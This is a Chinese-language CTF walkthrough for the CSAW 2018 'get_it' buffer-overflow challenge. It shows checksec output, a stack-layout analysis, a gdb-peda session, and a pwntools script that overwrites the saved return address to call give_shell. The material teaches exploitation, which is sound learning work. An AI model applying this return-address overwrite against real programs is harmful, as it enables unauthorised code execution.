




# 2.4 Csaw Quals 2018 Get It
首先查看ELF的安全机制

```python
[*] '/home/lex/Project/nightmare/modules/05-bof_callfunction/csaw18_getit/get_it'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
64位程序没有开启canary & PIE

运行程序



使用IDA查看



还有一个give\_shell函数



程序很简单，就是获取一个输入，那么就只能覆盖RIP，进行RCE了，要覆盖RIP，就必须在RIP中填入shellcode的地址，这里我们只需要在RIP中填入give\_shell函数的地址即可(在栈canary没有开启的情况下)




在X64架构中，rbp的地址为rbp+0x00, rip跟rbp相差0x8个字节，rip的地址为rbp+0x8

从汇编代码中可以看到，v4变量对应的是var\_20，地址为rbp-0x20，其中还有两个多余的变量var\_24, var\_30，这里我们不需要管，这两个变量不影响var\_20，因为在他们不在var\_20和rbp之间，栈的结构如下(底部是栈顶)：

RETURN ADDRESS

RBP

ALIGNMENT SPACE

ALIGNMENT SPACE

VAR\_20

VAR\_24

VAR\_30

ESP

所以在这个程序中，var\_20跟rip之间相差了0x20 + 0x8 = 40个字节

使用gdb调试查看

```python
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7ffff7dcfa00 --> 0xfbad2288 
RDX: 0x7ffff7dd18d0 --> 0x0 
RSI: 0x602675 --> 0xa ('\n')
RDI: 0x7fffffffdcc5 --> 0x4004c0000000 
RBP: 0x7fffffffdce0 --> 0x400600 (<__libc_csu_init>:    push   r15)
RSP: 0x7fffffffdcb0 --> 0x7fffffffddc8 --> 0x7fffffffe16c ("/home/lex/Project/nightmare/modules/05-bof_callfunction/csaw18_getit/get_it")
RIP: 0x4005f6 (<main+47>:   leave)
R8 : 0x602676 --> 0x0 
R9 : 0x7ffff7b52940 (<__memcpy_ssse3+8688>: mov    edx,DWORD PTR [rsi-0x4])
R10: 0x602010 --> 0x0 
R11: 0x7ffff7ba0ec0 --> 0xfffb14e0fffb1318 
R12: 0x4004c0 (<_start>:    xor    ebp,ebp)
R13: 0x7fffffffddc0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4005e7 <main+32>:  mov    eax,0x0
   0x4005ec <main+37>:  call   0x4004a0 <gets@plt>
   0x4005f1 <main+42>:  mov    eax,0x0
=> 0x4005f6 <main+47>:  leave  
   0x4005f7 <main+48>:  ret    
   0x4005f8:    nop    DWORD PTR [rax+rax*1+0x0]
   0x400600 <__libc_csu_init>:  push   r15
   0x400602 <__libc_csu_init+2>:    push   r14
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdcb0 --> 0x7fffffffddc8 --> 0x7fffffffe16c ("/home/lex/Project/nightmare/modules/05-bof_callfunction/csaw18_getit/get_it")
0008| 0x7fffffffdcb8 --> 0x100000000 
0016| 0x7fffffffdcc0 --> 0x6161616161 ('aaaaa')
0024| 0x7fffffffdcc8 --> 0x4004c0 (<_start>:    xor    ebp,ebp)
0032| 0x7fffffffdcd0 --> 0x7fffffffddc0 --> 0x1 
0040| 0x7fffffffdcd8 --> 0x0 
0048| 0x7fffffffdce0 --> 0x400600 (<__libc_csu_init>:   push   r15)
0056| 0x7fffffffdce8 --> 0x7ffff7a05b97 (<__libc_start_main+231>:   mov    edi,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004005f6 in main ()
gdb-peda$ i f
Stack level 0, frame at 0x7fffffffdcf0:
 rip = 0x4005f6 in main; saved rip = 0x7ffff7a05b97
 called by frame at 0x7fffffffddb0
 Arglist at 0x7fffffffdce0, args: 
 Locals at 0x7fffffffdce0, Previous frame's sp is 0x7fffffffdcf0
 Saved registers:
  rbp at 0x7fffffffdce0, rip at 0x7fffffffdce8
gdb-peda$ x/g $rbp+0x8
0x7fffffffdce8: 0x00007ffff7a05b97
gdb-peda$ searchmem aaaa
Searching for 'aaaa' in: None ranges
Found 2 results, display max 2 items:
 [heap] : 0x602670 --> 0xa6161616161 ('aaaaa\n')
[stack] : 0x7fffffffdcc0 --> 0x6161616161 ('aaaaa')
```
所以 0x7fffffffdce8 - 0x7fffffffdcc0 = 40，从IDA中可以得到give\_shell函数的地址为 0x4005B6，exploit如下：

```python
#!/usr/bin/env python

from pwn import *
payload = 'A' * 40 + p64(0x4005B6)
target = process('./get_it')
target.sendline(payload)
target.interactive()
```